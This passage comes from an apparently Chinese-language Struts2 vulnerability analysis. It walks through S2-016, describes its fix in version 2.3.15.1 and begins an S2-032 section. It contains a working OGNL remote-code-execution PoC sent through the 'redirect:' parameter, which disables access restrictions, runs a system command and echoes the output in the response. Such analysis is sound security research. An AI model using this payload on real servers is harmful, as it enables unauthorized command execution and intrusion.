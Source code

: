 继续跟进，看到了熟悉的`TextParseUtil.translateVariables()`方法。后面的方法执行流程就跟`S2-015:vuln-1`一样了，这里不再展开。

### 可回显PoC

```
xxx.action?redirect:%{#context['xwork.MethodAccessor.denyMethodExecution']=false,
#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),
#f.setAccessible(true),
#f.set(#_memberAccess,true),
#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),
#wr=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),
#wr.println(#a),#wr.flush(),#wr.close()}
```

<img src="pic/struts2_s2-016_8.png">

## 漏洞修复

通过版本代码比对，在Struts2 `2.3.15.1`版本中，`DefaultActionMapper`类里对`redirect:`、`redirectAction:`前缀的处理代码都删除了。

<img src="pic/struts2_s2-016_9.png">
 
<img src="pic/struts2_s2-016_10.png">

<a name="s2-032"></a>
## S2-032

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-032

影响版本：`Struts 2.3.20` - `Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)`
